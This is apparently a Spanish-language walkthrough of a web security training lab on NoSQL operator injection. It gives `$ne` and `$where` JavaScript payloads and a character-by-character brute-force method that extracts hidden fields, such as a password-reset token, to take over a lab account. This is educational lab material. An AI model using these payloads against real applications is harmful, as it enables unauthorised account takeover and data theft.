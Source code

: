 # 04 Lab: Exploiting NoSQL operator injection to extract unknown fields

## Objetivo

> The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.
> 
> 
> To solve the lab, log in as `carlos`.
> 

## Solución

Cambia el valor del parámetro `password` de 'invalid' a `{"$ne":"invalid"}`, y luego envía la solicitud. Observa que ahora recibes un mensaje de error que dice 'Cuenta bloqueada'. No puedes acceder a la cuenta de Carlos, pero esta respuesta indica que el operador `$ne` ha sido aceptado y que la aplicación es vulnerable."

![image.png](04%20Lab%20Exploiting%20NoSQL%20operator%20injection%20to%20extr%2017efab5460ec80279c68f3895675d869/image.png)

![image.png](04%20Lab%20Exploiting%20NoSQL%20operator%20injection%20to%20extr%2017efab5460ec80279c68f3895675d869/image%201.png)

Cambia `"$where": "0"` a `"$where": "1"`, y luego vuelve a enviar la solicitud. Observa que recibes un mensaje de error que dice 'Cuenta bloqueada'. Esto indica que el JavaScript en la cláusula `$where` está siendo evaluado

![image.png](04%20Lab%20Exploiting%20NoSQL%20operator%20injection%20to%20extr%2017efab5460ec80279c68f3895675d869/image%202.png)

"$where":"Object.keys(this)[1].match('^.{}.*')”

```jsx
{
<pos 0> "_id" : 'xxxxxx',
<pos 1> "username":"carlos",
<pos 2> "password":{"$ne":"invalid"},
<pos 3> "posible_campo" : 'valor_campo'
}

"$where":"function(){ if (Object.keys(this)[1].match('username')) return 1; else 0;}"
"$where":"function(){ if (Object.keys(this)[1].length == 6 ) return 1; else 0;}"

{
"username":"carlos",
"password":{"$ne":"invalid"},
"$where": "1"

}
```

![image.png](04%20Lab%20Exploiting%20NoSQL%20operator%20injection%20to%20extr%2017efab5460ec80279c68f3895675d869/image%203.png)

```jsx
"$where":"function(){ if (Object.keys(this)[3].length == 6 ) return 1; else 0;}"
Asi que tiene 5 caracteres
```

![image.png](04%20Lab%20Exploiting%20NoSQL%20operator%20injection%20to%20extr%2017efab5460ec80279c68f3895675d869/image%204.png)

![image.png](04%20Lab%20Exploiting%20NoSQL%20operator%20injection%20to%20extr%2017efab5460ec80279c68f3895675d869/image%205.png)

```jsx
"$where":"function(){ if (Object.keys(this)[3].match(/^$a$/)) return 1; else 0;}"
Vamos a sacar con esto el primer caracter, y asi lo hacemos sucesivamente
Campo del usuario: email
```

```jsx
a
b
c
d
e
f
g
h
i
j
k
l
m
n
o
p
q
r
s
t
u
v
w
x
y
z
A
B
C
D
E
F
G
H
I
J
K
L
M
N
O
P
Q
R
S
T
U
V
W
X
Y
Z
0
1
2
3
4
5
6
7
8
9

```

![image.png](04%20Lab%20Exploiting%20NoSQL%20operator%20injection%20to%20extr%2017efab5460ec80279c68f3895675d869/image%206.png)

![image.png](04%20Lab%20Exploiting%20NoSQL%20operator%20injection%20to%20extr%2017efab5460ec80279c68f3895675d869/image%207.png)

![image.png](04%20Lab%20Exploiting%20NoSQL%20operator%20injection%20to%20extr%2017efab5460ec80279c68f3895675d869/image%208.png)

![image.png](04%20Lab%20Exploiting%20NoSQL%20operator%20injection%20to%20extr%2017efab5460ec80279c68f3895675d869/image%209.png)

![image.png](04%20Lab%20Exploiting%20NoSQL%20operator%20injection%20to%20extr%2017efab5460ec80279c68f3895675d869/image%2010.png)

---

---

![image.png](04%20Lab%20Exploiting%20NoSQL%20operator%20injection%20to%20extr%2017efab5460ec80279c68f3895675d869/image%2011.png)

```jsx
// hidden field name is "mail"
"$where":"function(){ if (this.email.length == 1 ) return 1; else 0;}"
// Son 25 caracteres
"$where":"function(){ if (this.email.match(/^$a$/)) return 1; else 0;}"
"$where":"function(){ if (this.email.match('^.{$NUMBER$}$CARACTER$.*')) return 1; else 0;}"
"$where":"function(){ if (this.email.match('^.{§1§}§A§.*')) return 1; else 0;}"

{§§}§§
('^.{§§}§§.*')

carlos@carlos-montoya.net

unlockToken
```

![image.png](04%20Lab%20Exploiting%20NoSQL%20operator%20injection%20to%20extr%2017efab5460ec80279c68f3895675d869/image%2012.png)

![image.png](04%20Lab%20Exploiting%20NoSQL%20operator%20injection%20to%20extr%2017efab5460ec80279c68f3895675d869/image%2013.png)

![image.png](04%20Lab%20Exploiting%20NoSQL%20operator%20injection%20to%20extr%2017efab5460ec80279c68f3895675d869/image%2014.png)

![image.png](04%20Lab%20Exploiting%20NoSQL%20operator%20injection%20to%20extr%2017efab5460ec80279c68f3895675d869/image%2015.png)

Otro campo aparte del email

```jsx
{"username":"carlos","password":{"$ne":"invalid"},
"$where":"function(){ if (Object.keys(this)[4].length == §6§ ) return 1; else 0;}"
}
Son 11 caracteres

"$where":"function(){ if (Object.keys(this)[4].match(/^$a$/)) return 1; else 0;}"
unlockToken
9457f5cff38fff0b

"$where":"function(){ if (Object.keys(this)[4].match(/^f§a§/)) return 1; else 0;}"
"$where":"function(){ if (Object.keys(this)[4].match('^.{§1§}§1§.*')) return 1; else 0;}"
forgotPwd
"$where":"function(){ if (this.forgotPwd.match(/^$a$/)) return 1; else 0;}"
"$where":"function(){ if (this.forgotPwd.match('^.{§1§}§A§.*')) return 1; else 0;}"
db10648a240ccfa1
```

![image.png](04%20Lab%20Exploiting%20NoSQL%20operator%20injection%20to%20extr%2017efab5460ec80279c68f3895675d869/image%2016.png)

![image.png](04%20Lab%20Exploiting%20NoSQL%20operator%20injection%20to%20extr%2017efab5460ec80279c68f3895675d869/image%2017.png)

![Untitled](04%20Lab%20Exploiting%20NoSQL%20operator%20injection%20to%20extr%2017efab5460ec80279c68f3895675d869/Untitled.png)
